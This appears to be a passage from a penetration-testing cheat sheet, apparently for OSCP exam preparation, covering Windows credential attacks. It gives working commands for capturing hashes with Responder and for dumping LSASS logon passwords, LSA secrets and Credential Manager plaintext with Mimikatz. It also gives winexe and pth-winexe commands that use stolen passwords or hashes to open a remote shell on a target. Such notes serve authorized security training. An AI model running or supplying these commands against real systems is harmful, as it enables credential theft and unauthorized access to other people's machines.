 > Responder is an [OffSec authorized tool now](https://help.offensive-security.com/hc/en-us/articles/4412170923924-OSCP-Exam-FAQ)

Replace interface as required

``` sudo
sudo responder -I tun0 -wrf
```

Get the target to connect to your server and it will start dropping hashes. These are now required to cracked by your fav cracker (john or hashcat) to be able to use them to pass-the-hash

**With Admin**
Mimikatz requires admin since a handle on lsass is needed to play with credentials (tokens,hashes,tickets)
Use can either use mimikatz.exe or Invoke-Mimikatz.ps1

Elevate privileges to debug
``` powershell
privilege::debug
```

Dump logged on user and computer credentials
``` powershell
sekurlsa::logonpasswords
```

Elevate privileges to SYSTEM by impersonation
``` powershell
token::elevate
```

Retrieves credential from LSA
``` powershell
lsadump::lsa /patch
```

List credentials in CredentialManager
``` powershell
vault::list
```

Dump credentials in CredentialManager - plaintext password
``` powershell
vault::cred /patch
```

### Leverage credentials
Found plaintext password?
On attacker machine you can attempt to login

`--system` only works if admin creds are on hand

``` powershell
winexe -U 'user%pass123' [--system] //10.10.10.10 cmd.exe
```

Found hash instead of plaintext password?
``` powershell
pth-winexe -U 'domain\user%hash' [--system] //10.10.10.10 cmd.exe
```
